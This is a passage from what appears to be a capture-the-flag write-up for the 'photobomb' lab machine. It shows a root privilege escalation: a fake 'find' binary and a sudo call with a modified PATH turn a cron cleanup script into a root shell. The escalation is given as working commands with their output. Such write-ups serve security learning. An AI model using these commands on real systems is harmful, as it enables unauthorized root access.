 - The script find all files that ends with .`jpg` inside the `source_images` directory and change the files owner to the root.

- This script run as a cronjob:

```bash
wizard@photobomb:~/photobomb/source_images$ crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
*/5 * * * * sudo /opt/cleanup.sh

```

- If a non-privileged user can run a script with `sudo` without a password and the script uses a binary without specifying **the full path to the binary** (`find` in our case), the non-privileged user could potentially elevate their privileges by modifying the script to run a different binary with the same name as the original binary. For example, if the script uses the `cp` command without specifying the full path, the user could create a malicious binary called `cp` in a directory that is earlier in the `PATH` environment variable than the real `cp` binary, and then run the script with `sudo`. This would cause the script to run the malicious `cp` binary instead of the real one, potentially allowing the user to execute arbitrary code with elevated privileges.

```bash
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ ls
find  photobomb  user.txt
wizard@photobomb:~$ chmod +x find
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# cd
root@photobomb:~# ls
root.txt
```

# Rooted, Thanks For Reading!
